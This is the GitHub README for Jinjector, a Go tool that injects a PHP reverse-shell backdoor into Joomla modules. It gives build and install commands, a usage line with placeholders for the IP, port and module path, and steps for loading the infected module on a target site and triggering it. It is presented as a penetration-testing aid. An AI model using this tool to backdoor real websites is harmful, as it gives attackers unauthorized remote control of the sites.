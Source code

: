 <img src="https://github.com/user-attachments/assets/f72b05a4-e65d-4e34-ac12-b07e5f9d090e" alt="Logo"/>

( It's pronounced "J in jek′tər" - J injector )

Jinjector is a powerful tool written in Go, designed to inject backdoors into Joomla modules effortlessly. Using this tool, you can easily insert a PHP reverse shell into a Joomla module's main file, allowing a connection back to a specified IP and port whenever the module is triggered. This is perfect for penetration testers or researchers aiming to simulate real-world scenarios.

> [!CAUTION]
> This tool is intended for educational and ethical testing purposes only. Unauthorized use of this tool on live systems without permission is illegal and unethical.

## ✨ Features 
- Automatic file discovery: Extracts information from the Joomla XML manifest file to locate the main file.
- Stealthy injection: Injects a PHP reverse shell that connects back to your specified IP and port.
- Ease of use: Specify your IP, port, and the module directory, and let Jinjector handle the rest.

## 📦 Requirements
- Go
- Joomla module directory (with a valid manifest.xml file)

## 🛠️ Installation
1. Clone the repository 
```bash
git clone https://github.com/giovanni-iannaccone/Jinjector
cd Jinjector
```
2. Build 
```bash
cd cmd
go build -o jinjector
```

## 🐧 BlackArch 

This tool is now officially available in the <a href="https://github.com/BlackArch/blackarch/">BlackArch repository</a>! For security researchers, ethical hackers, and developers using BlackArch, you can install it directly via the system package manager:

```bash
sudo pacman -S jinjector
```

## 🚀 Usage
1. Run the program 
```bash
jinjector --ip=YOUR_IP --port=YOUR_PORT --module=MODULE_PATH --backdoor=BACKDOOR_PATH
```
2. Load the infected module on the target site 
3. Start an http client on the port your gave in the previous step
4. Trigger the module by sendign a request to its position

## 🌍 How It Works 
**Manifest Extraction**: Jinjector parses the XML file in the given module directory to identify the main PHP file. <br/>
**Payload Injection**: Once located, it appends a PHP reverse shell payload to the main file. <br/>
**Connection Setup**: Every time the infected Joomla module is used, it attempts to establish a connection to your IP and port. <br/>

## ⚡️ Reverse Shell Code
The reverse shell code injected is just a proof of concept, designed to open a connection to the specified IP and port. You can modify the payload if needed for specific testing purposes (backdoor.php file)
I used the <a href="https://github.com/pentestmonkey/php-reverse-shell">pentestmonkey php reverse shell</a> 

## 🧩 Contributing
We welcome contributions! Please follow these steps:

1. Fork the repository.
2. Create a new branch ( using <a href="https://medium.com/@abhay.pixolo/naming-conventions-for-git-branches-a-cheatsheet-8549feca2534">this</a> convention).
3. Make your changes and commit them with descriptive messages.
4. Push your changes to your fork.
5. Create a pull request to the main repository.

## ⚖ License
This project is licensed under the GPL-3.0 License. See the LICENSE file for details.

## ⚔ Contact
- For any inquiries or support, please contact <a href="mailto:iannacconegiovanni444@gmail.com"> iannacconegiovanni444@gmail.com </a>.
- Visit my site for more informations about me and my work <a href="https://giovanni-iannaccone.github.io" target=”_blank”> https://giovanni-iannaccone.github.io </a>

🐞 Happy Hacking ... 
